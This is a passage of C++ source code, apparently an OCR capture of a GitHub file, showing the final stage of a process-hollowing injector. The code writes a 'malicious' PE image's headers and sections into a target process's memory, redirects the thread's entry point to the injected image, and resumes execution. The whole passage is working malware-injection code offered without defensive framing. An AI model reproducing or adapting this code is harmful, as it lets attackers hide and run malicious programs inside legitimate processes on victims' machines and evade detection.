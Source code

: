 ```text

	cout << "[+] Memory allocated in target at: 0x" << pHollowAddress << endl;


	//#########################################################################
	//write malicious PE headers into target
	if (!WriteProcessMemory(
		target_pi->hProcess,
		pTargetImageBaseAddress,
		pMaliciousImage,
		pNTHeaders->OptionalHeader.SizeOfHeaders,
		NULL
	)) {
		cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
	}
	cout << "[+] Headers written to memory." << endl;
	

	//#########################################################################
	//write malicious PE sections into target
	for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));

		WriteProcessMemory(
			target_pi->hProcess,
			(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress),
			(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData),
			pSectionHeader->SizeOfRawData,
			NULL
		);
		//cout << "[+] Section: " << pSectionHeader->Name <<" written to memory."<< endl;
	}
	cout << "[+] Sections written to memory." << endl;


	//#########################################################################
	//change victim entry point (EAX thread context) to malicious entry point & resume thread
	c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint);

	SetThreadContext(target_pi->hThread, &c);
	ResumeThread(target_pi->hThread);

	system("pause");
	TerminateProcess(target_pi->hProcess, 0);

	return 0;

}
```
